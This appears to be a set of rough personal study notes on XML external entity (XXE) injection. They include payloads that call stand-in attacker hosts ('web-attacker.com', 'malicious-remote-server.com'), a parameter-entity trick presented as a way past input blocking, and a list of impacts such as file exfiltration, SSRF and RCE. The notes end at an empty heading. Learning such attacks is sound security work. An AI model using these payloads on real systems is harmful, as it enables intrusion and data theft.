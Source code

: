 `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`

You would then make use of the defined entity in a data value within the XML.

This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.

## seccound method 

 **XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:**

![[Pasted image 20250620235215.png]]
## block input id  bypasss

**bypasss** <!ENTITY % myparameterentity "my parameter entity value"%myparameterentity; >

![[Pasted image 20250620235524.png]]
### malicious DTD injection xml external entity


### what is DTD
DTD stands for Document Type Definition.
A DTD defines the structure and the legal elements and attributes of an XML document.

### injection dtd 

### DTD Two type injrction 

#### Remote File Inclusion):

xml

`<?xml version="1.0"?> <!DOCTYPE root [   <!ENTITY xxe SYSTEM "http://malicious-remote-server.com/data"> ]> <root>&xxe;</root>`

- **Remote Impact**: Sends a request to a malicious server, allowing:
    
    - **Exfiltration of internal files** via URLs.
        
    - **Server-side request forgery (SSRF)** to internal systems.
        
    - Sometimes RCE, depending on the parser and configuration.
        

---

### 2. **Parameter Entity Injection**
